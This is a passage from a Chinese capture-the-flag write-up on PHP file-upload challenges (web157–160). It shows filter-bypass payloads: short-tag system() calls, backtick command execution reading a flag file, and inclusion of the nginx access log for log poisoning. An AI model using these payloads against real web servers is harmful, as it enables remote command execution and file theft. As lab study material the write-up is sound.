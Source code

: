 这里我们可以发现 操作步骤和上面一样 但是在传犸的时候无法实现

经过一直删 发现 【】 {} ；

全被过滤了 那么木马就没办法了 但是可以通过短标签来执行system命令

```cobol
<?=
system(ls)
?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/01c6530c74bd805b9b8e4140df7d9509.png" alt="" style="max-height:445px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/d0b9c5980d462446a1df6a706cb951ff.png" alt="" style="max-height:151px; box-sizing:content-box;" />


```cobol
<?=
system('nl ../f*')
?>
```

## web158

和上面一样 可以直接读取

## web159  过滤() 使用内联执行

这里发现()也不好使了

我们可以使用`` 来执行命令

```cobol
<?= `nl ../f*`?>
```

## web160 user.ini + 日志包含

过滤了空格 和 ``

这里发现内联也无法实现了

我们想想看能不能直接包含日志 然后通过日志进行文件上传

发现无法实现

```php
<?=include"/var/log/nginx/access.log"
```

这里我们开始删去内容 然后看看什么被过滤了 最后发现是log被过滤了

然后我们思考这里是传入字符串 所以可以通过 点 绕过
